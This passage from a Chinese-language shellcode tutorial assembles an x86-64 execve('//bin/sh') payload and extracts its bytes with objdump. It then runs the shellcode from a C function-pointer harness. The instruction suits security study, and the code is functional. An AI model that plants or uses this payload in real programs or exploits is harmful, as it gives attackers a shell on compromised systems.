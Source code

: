 `execve`系统调用号是`59`：

```
add rax, 59
syscall
```

让我们把我们的代码放在一起：

```
global _start

section .text

_start:
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

现在运行以下命令：

```
$ nasm -felf64 execve.nasm -o execve.o
$ ld execve.o -o execve $ ./execve
```

上一个命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00202.jpeg)

让我们将其转换为 shellcode：

```
$ objdump -M intel -D execve | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上一个命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00203.jpeg)

我们将使用 C 代码来注入我们的 shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```
